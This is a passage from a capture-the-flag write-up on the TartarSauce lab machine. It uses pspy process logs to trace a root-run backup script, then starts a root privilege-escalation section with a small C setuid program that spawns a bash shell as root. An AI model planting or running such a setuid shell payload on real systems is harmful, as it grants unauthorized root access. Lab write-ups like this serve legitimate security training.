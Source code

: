 ### backuperer

Another way of finding out how backuperer works is by using pspy. For this, We will have to check the architcture of the server. Since this is i686, we will need to use the 32bit version of pspy.

```
onuma@TartarSauce:/var/tmp$ uname -m
uname -m
onuma@TartarSauce:/var/tmp$ lscpu | grep -i byte
lscpu | grep -i byte
Byte Order:            Little Endian
onuma@TartarSauce:/var/tmp$ 
```

From pspy32s, we can actually see that the script will first save the /var/www/html directory into /var/tmp/.ad5b240b1de0816919343cb0c0cc9dd441b9d9d3. Afterwards, it will extract the /var/tmp/.ad5b240b1de0816919343cb0c0cc9dd441b9d9d3 to the /var/tmp/check directory. Since the script pass the integrity check, the /var/tmp/.ad5b240b1de0816919343cb0c0cc9dd441b9d9d3 will be saved to /var/backups/onuma-www-dev.bak.

```
2021/12/13 13:55:24 CMD: UID=0    PID=7441   | /bin/rm -rf /var/tmp/. /var/tmp/.. /var/tmp/check 
2021/12/13 13:55:24 CMD: UID=0    PID=7445   | /bin/sleep 30 
2021/12/13 13:55:24 CMD: UID=0    PID=7444   | /bin/bash /usr/sbin/backuperer 
2021/12/13 13:55:24 CMD: UID=1000 PID=7448   | /bin/tar -zcvf /var/tmp/.ad5b240b1de0816919343cb0c0cc9dd441b9d9d3 /var/www/html                                                                                                              
2021/12/13 13:55:24 CMD: UID=1000 PID=7449   | gzip 
2021/12/13 13:55:54 CMD: UID=0    PID=7455   | gzip -d 
2021/12/13 13:55:54 CMD: UID=0    PID=7454   | /bin/tar -zxvf /var/tmp/.ad5b240b1de0816919343cb0c0cc9dd441b9d9d3 -C /var/tmp/check                                                                                                          
2021/12/13 13:55:55 CMD: UID=0    PID=7457   | /bin/bash /usr/sbin/backuperer 
2021/12/13 13:55:55 CMD: UID=0    PID=7456   | /bin/bash /usr/sbin/backuperer 
2021/12/13 13:55:55 CMD: UID=0    PID=7458   | /bin/mv /var/tmp/.ad5b240b1de0816919343cb0c0cc9dd441b9d9d3 /var/backups/onuma-www-dev.bak                                                                                                    
2021/12/13 13:55:55 CMD: UID=0    PID=7459   | /bin/rm -rf /var/tmp/check . ..
```

### Privilege Escalation to root

There is supposedly another method to obtain the root flag by spawning a root shell. All we have to do is to first write a setuid program.

```
#include <unistd.h>
int main()
{
    setuid(0);
    execl("/bin/bash", "bash", (char *)NULL);
    return 0;
}
```

